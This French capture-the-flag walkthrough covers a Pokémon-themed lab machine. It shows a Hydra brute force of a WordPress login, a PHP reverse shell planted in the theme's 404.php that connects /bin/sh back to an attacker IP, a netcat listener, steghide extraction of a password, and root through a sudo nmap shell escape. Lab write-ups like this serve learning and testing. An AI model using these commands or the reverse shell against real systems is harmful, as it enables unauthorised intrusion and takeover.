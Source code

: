 # Gotta Catch Them All - CTF Walkthrough

## Sommaire

1. [Reconnaissance initiale (robots.txt, message.txt)](#1-reconnaissance-initiale-robotstxt-messagetxt)
2. [Bruteforce WordPress avec Hydra](#2-bruteforce-wordpress-avec-hydra)
3. [Reverse Shell via 404.php](#3-reverse-shell-via-404php)
4. [Analyse Stegano (grass.jpeg)](#4-analyse-stegano-grassjpeg)
5. [Accès SSH & Escalade de Privilèges](#5-accès-ssh--escalade-de-privilèges)

---

## 1. Reconnaissance Initiale (robots.txt, message.txt)

On commence par analyser les fichiers `robots.txt` et `message.txt`. Ces fichiers contiennent des indices. Le fichier `message.txt` indique que le mot de passe d'Ash fait partie d'une wordlist personnalisée.

On écrit un script Python pour générer une wordlist basée sur des noms de Pokémon (ou on en récupère une existante).

## 2. Bruteforce WordPress avec Hydra

On utilise Hydra pour forcer la connexion WordPress avec l’utilisateur Ash :

```bash
hydra -l Ash -P listpokemon 10.10.145.11"
```

Accès obtenu ✅

## 3. Reverse Shell via 404.php

On se connecte à WordPress en tant qu’administrateur Ash. Dans l’éditeur de thème, on modifie `404.php` et on y place un reverse shell PHP :

```php
<?php
$ip = '10.8.92.59';
$port = 9001;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/sh", [0 => $sock, 1 => $sock, 2 => $sock], $pipes);
?>
```

On écoute côté attaquant :

```bash
nc -lvnp 9001
```

On déclenche une 404 depuis le site → Shell obtenu 🎉

🎉 **1er Flag obtenu**

## 4. Analyse Stegano (grass.jpeg)

On récupère une image `grass.jpeg`. Elle contient un message caché.

```bash
steghide extract -sf grass.jpeg
# Password: mew
```

Contenu du fichier extrait `message.txt` :

```
Alright Ash you won, here is your password to log in:
I_Wanna_Be_The_Very_Best_With_Pikachu
```

## 5. Accès SSH & Escalade de Privilèges

Connexion SSH avec :

```bash
ssh ash@10.10.145.11
# Password: I_Wanna_Be_The_Very_Best_With_Pikachu
```

🎉 **2ème Flag obtenu**

On vérifie les droits sudo :

```bash
sudo -l
```

Résultat : on peut exécuter `discover_new_pokemon`, un script basé sur **nmap**.

On l’exécute :

```bash
sudo /usr/local/bin/discover_new_pokemon
```

Une fois dans l’interface interactive de Nmap, on utilise :

```bash
!sh
```

➡️ Et on devient root !

---

✅ **Root obtenu sur Gotta Catch Them All !**

🎉 **3ème Flag obtenu**

